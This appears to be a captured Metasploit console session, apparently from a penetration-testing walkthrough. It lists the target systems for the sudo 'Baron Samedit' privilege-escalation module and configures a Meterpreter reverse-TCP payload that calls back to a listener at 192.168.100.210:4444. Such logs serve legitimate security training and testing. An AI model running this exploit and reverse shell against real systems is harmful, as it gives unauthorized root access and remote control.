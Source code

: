 ```bash
   62    \_ target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)                   .                .          .      .
   63    \_ target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31) - alternative     .                .          .      .
   64    \_ target: Ubuntu 19.04 x64 (sudo v1.8.27, libc v2.29)                   .                .          .      .
   65    \_ target: Ubuntu 18.04 x64 (sudo v1.8.21, libc v2.27)                   .                .          .      .
   66    \_ target: Ubuntu 18.04 x64 (sudo v1.8.21, libc v2.27) - alternative     .                .          .      .
   67    \_ target: Ubuntu 16.04 x64 (sudo v1.8.16, libc v2.23)                   .                .          .      .
   68    \_ target: Ubuntu 14.04 x64 (sudo v1.8.9p5, libc v2.19)                  .                .          .      .
   69    \_ target: Debian 10 x64 (sudo v1.8.27, libc v2.28)                      .                .          .      .
   70    \_ target: Debian 10 x64 (sudo v1.8.27, libc v2.28) - alternative        .                .          .      .
   71    \_ target: CentOS 8 x64 (sudo v1.8.25p1, libc v2.28)                     .                .          .      .
   72    \_ target: CentOS 7 x64 (sudo v1.8.23, libc v2.17)                       .                .          .      .
   73    \_ target: CentOS 7 x64 (sudo v1.8.23, libc v2.17) - alternative         .                .          .      .
   74    \_ target: Fedora 27 x64 (sudo v1.8.21p2, libc v2.26)                    .                .          .      .
   75    \_ target: Fedora 26 x64 (sudo v1.8.20p2, libc v2.25)                    .                .          .      .
   76    \_ target: Fedora 25 x64 (sudo v1.8.18, libc v2.24)                      .                .          .      .
   77    \_ target: Fedora 24 x64 (sudo v1.8.16, libc v2.23)                      .                .          .      .
   78    \_ target: Fedora 23 x64 (sudo v1.8.14p3, libc v2.22)                    .                .          .      .
   79    \_ target: Manual                                                        .                .          .      .

msf6 exploit(linux/http/elfinder_archive_cmd_injection) > use 60
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/sudo_baron_samedit) > options

Module options (exploit/linux/local/sudo_baron_samedit):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   SESSION                       yes       The session to run this module on
   WritableDir  /tmp             yes       A directory where you can write files.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.210  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```